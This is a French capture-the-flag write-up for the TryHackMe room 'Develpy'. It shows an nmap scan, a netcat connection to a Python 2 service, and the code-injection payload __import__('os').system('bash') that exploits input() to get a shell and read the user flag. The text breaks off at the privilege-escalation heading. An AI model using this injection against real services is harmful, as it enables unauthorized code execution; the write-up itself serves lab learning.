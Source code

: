 # Develpy-Write-up
Write-up Room Develpy Tryhackme


Cliquez [ici](https://tryhackme.com/room/bsidesgtdevelpy) pour accéder au room.

# Première étape : Identifier la cible et ses vulnérabilités.

On commence par un scan de port avec nmap.

```bash

nmap -sS -A -Pn [IP]
```


![](img/Develpy_scan.png?raw=true) 

On voit q'au niveau du port 10000 il y a un petit script python qui tourne.
On se connecte au serveur sur ce port pour voir ce que ça donne.


```bash

nc [IP] 10000
```
![](img/Develpy_nc0.png?raw=true)

![](img/Develpy_nc0-1.png?raw=true)

>Ce script est écrit en python mais dans quelle version de python?
>On voit aussi que le module input est utilisé.


**NameError: name 'a' is not defined

On a l'exception suivante si on entre une lettre.
>Ce qui veut dire que python n'a pas pu identifier la variable ou le module "a" : On a donc pas définit une varibale ou un module de nom de "a"

**Il s'agit d'une vulnérabilité de python2 qui permet d'exécuter des codes sur la machine via python.

# Deuxième étape : exploitation de vulnérabilité

Il y a plusieurs manières d'exploiter cette vulnérabilité.

```python
__import__('os').system('bash')
```
On va envoyer ce code ci-dessus pour exécuter la commande bash sur la machine.
Une fois que ça serra fait on aurra accès à la machine sur l'utilisateur sur lequel est exécuté le script.

![](img/Develpy_nc.png?raw=true)

On est mainténant loggé sur le user king.

```bash
cat user.txt
```
Avec la commande ci-dessus on a le premier flag.


# Troisième étape : Escalade de privilège

